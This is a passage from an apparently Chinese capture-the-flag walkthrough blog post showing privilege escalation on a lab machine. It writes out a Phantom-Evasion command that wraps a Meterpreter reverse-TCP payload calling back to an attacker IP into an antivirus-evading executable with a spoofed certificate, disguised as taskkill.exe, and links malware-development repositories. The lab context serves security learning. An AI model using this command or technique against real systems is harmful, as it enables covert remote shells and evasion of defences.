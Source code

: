![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMTpBDhmW2a9aksmhZm6F9KTkaYzSZwCianG7bN8FF8u798PSuD91ibXocKV3cehYzArD8fibSe8CLmQ/640?wx_fmt=png)

**介绍：**Phantom-Evasion 是一种使用 python 编写的防病毒逃避工具（均与 python 和 python3 兼容），即使使用最常见的 x86 msfvenom 有效负载，它也能够生成（几乎）完全无法检测到的可执行文件...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMTpBDhmW2a9aksmhZm6F9KJibq2ficj8QUgTh7Lib9Q6JOM7yDRDH1HDQSKyUV4THabhBgqoPAZYwvw/640?wx_fmt=png)

这里有帮助命令...GO

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMTpBDhmW2a9aksmhZm6F9Kwmj6mBcXlnncuCp6uOp5bLgNbZJKibqrMcqqFehOubjbKea5P3oDuYg/640?wx_fmt=png)

这里利用直接生成欺骗性恶意程序....：Windows Shell 代码注入，输出带有欺骗性 https 证书的签名 exe，本地执行方法：线程，内存：Virtual_RWX，加密：vigenere....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMTpBDhmW2a9aksmhZm6F9KqDwP2a4njpG1bHibpic7XOJo92Q2FicTwR445pI2ezu6AoC1EjVFJ7ticA/640?wx_fmt=png)

```
python3 phantom-evasion.py -m WSI -msfp windows/meterpreter/reverse_tcp -H 10.10.14.11 -P 4444 -i Thread -e 4 -mem Virtual_RWX -j 1 -J 15 -jr 0 -E 5 -c www.windows.com:443 -f exe -o taskkill.exe
```

生成 taskkill.exe... 导入即可提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMTpBDhmW2a9aksmhZm6F9K6HRuldxnEgnOKCfDkOwxvzWYKVq6sxhUaTmoicWuQmGPEibmFwRt7kgg/640?wx_fmt=png)

开启 MSF 监听方便点... 然后上传 taskkill... 成功提权获得 root 信息...

这里还可以利用：

```
https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp
```

![](https://mmbiz.qpic.cn/mmbiz_png/zYxEsibHhhqHFXvQKic55dUSltLhKZhWS26N6nZiaz7TZhriaodk3GvvC5cnnSRwZR5f8TztGuKSBM7d2JMSl5iafcw/640?wx_fmt=png)

或者 Ebowla github 封装 msf 生成的. exe

等等，应该还有很多方法绕开提权....

由于我们已经成功得到 root 权限查看 user.txt 和 root.txt，因此完成了靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_gif/IwSh4vCvtCmAiahWWBCD6uVshNlbtsZxyBFdtQH49ia9feSkCyicQ3mgkNnn0DJR5ZYicTLj7IYQquYbqzXp3Y5HQA/640?wx_fmt=gif)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！
